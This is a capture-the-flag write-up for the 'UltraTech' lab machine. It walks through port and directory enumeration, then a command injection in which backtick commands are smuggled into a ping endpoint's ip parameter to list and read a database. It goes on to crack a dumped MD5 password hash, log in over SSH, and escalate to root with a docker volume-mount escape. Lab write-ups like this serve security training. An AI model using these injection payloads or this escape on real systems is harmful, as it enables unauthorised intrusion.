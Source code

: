 # UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilegie escalation.

Enumeration:
Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:
![nmap scan](images/nmap.png)

We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 
![gobuster scan](images/gobuster.png)

Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`
![apache server scan](images/apache_server.png)

Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this

![api.js](images/api_js.png)

This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906

![Crackstation](images/md5.png)

I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privilegies gained! :^)

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 

![Linpeas](images/linpeas.png)

r00t seems to be in the Docker group, so we better check that out more closely. There might be some Docker related commands we can use to escalate our privileges. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.

![Rooted!](images/root.png)

Rooted! :^) 
